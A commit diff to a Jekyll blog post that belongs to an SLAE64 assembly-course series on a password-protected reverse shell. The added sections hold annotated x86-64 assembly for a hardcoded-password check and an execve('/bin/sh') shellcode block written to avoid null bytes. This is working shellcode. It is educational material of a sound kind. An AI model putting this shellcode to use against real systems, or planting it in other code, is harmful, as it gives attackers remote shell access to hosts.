

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-14-SLAE64-Reverse-Password.md, in a window 1280 px wide and 1400 px high, scrolled down 4398 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4874 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-01-14-SLAE64-Reverse-Password.md

````diff
--- a/_posts/posts/2021-01-14-SLAE64-Reverse-Password.md
+++ b/_posts/posts/2021-01-14-SLAE64-Reverse-Password.md
@@ -281,3 +281,67 @@
        mov dl, 30             ; Gives DL the quantity of bytes to read, anything beyond intended should work as well.
        syscall                ; The syscall is executed.
 ```
+
+##### Comparison
+
++ RDI is given the value of RSP. In other words, RDI should hold the value of the input.
++ RSI is used in order to save the password to compare with.
++ RCX will be used as a counter.
++ The instructions ```repe cmpsb```, in simple terms, will compare every byte of RDI with RSI, as long as these match, the Zero flag (ZF) will be set. Furthermore, if all 16 bytes are the same, the ZF will remain deployed.
++ If the ZF hasn't been deployed, jump to the ```halt``` function.
+
+```term
+comparison:
+
+                              ; Password K6zjZpUKamLDSH8d
+       mov rdi, rsp           ; Copies the value of RSP into RSI. This will copy what was read on the previous function.
+
+       xor rax, rax           ; Zeroes out RAX.
+       xor rsi, rsi           ; Zeroes out RSI.
+       xor rdx, rdx           ; Zeroes out RDX.
+
+       mov rsi, 'amLDSH8d'    ; Inserts value 'amLDSH8d' into RSI.
+       push rsi               ; Pushes the value of RSI into the stack.
+
+       mov rsi, 'K6zjZpUK'    ; Inserts value 'K6zjZpUK' into RSI.
+       push rsi               ; Pushes the value of RSI into the stack.
+
+       mov rsi, rsp           ; Copies the value of RSP into RSI.
+
+       xor rcx, rcx           ; Zeroes out RCX.
+
+       mov cl, 16             ; Gives CL a value of 16. This value should remain the same length as the password (K6zjZpUKamLDSH8d), as this value will be crucial for
+                              ; comparison.
+                              ; If given less, the complete password isn't needed. If given more, the credential will not work even if sent correctly.
+
+       repe cmpsb             ; Will compare the strings and check if such match. If they do, it mantains the Zero flag (ZF).
+       jnz halt               ; Jump if the as long as the Zero flag (ZF) is not set, this means that if the password is incorrect, it should redirect the flow to the error
+                              ; message.
+```
+
+##### Execve
+
+manpage arguments: ```int execve(const char *pathname, char *const argv[], char *const envp[]);```
+
+```term
+execve:
+
+       xor rax, rax           ; Zeroes out RAX.
+       push rax               ; Pushes the NULL DWORD of RAX.
+
+       mov rbx, '//bin/sh'    ; Gives RBX the value '//bin/sh'
+       push rbx               ; Pushes the value of RBX into the Stack.
+
+       mov rdi, rsp           ; Copies the value of RSP into RDI.
+       push rax               ; Pushes the NULL DWORD of RAX.
+
+       mov rdx, rsp           ; Copies the value of RSP into RDX, giving a value of 0.
+       push rdi               ; Pushes the value of RDI into the Stack.
+
+       mov rsi, rsp           ; Copies the value of RSP into RSI.
+
+       push word 59           ; Pushes word 59 (execve) into the stack.
+       pop ax                 ; Pops such word into ax so there are no nulls.
+
+       syscall                ; The syscall is executed.
+```
````
Also changed, not shown: other parts of _posts/posts/2021-01-14-SLAE64-Reverse-Password.md (+2 -2 lines).
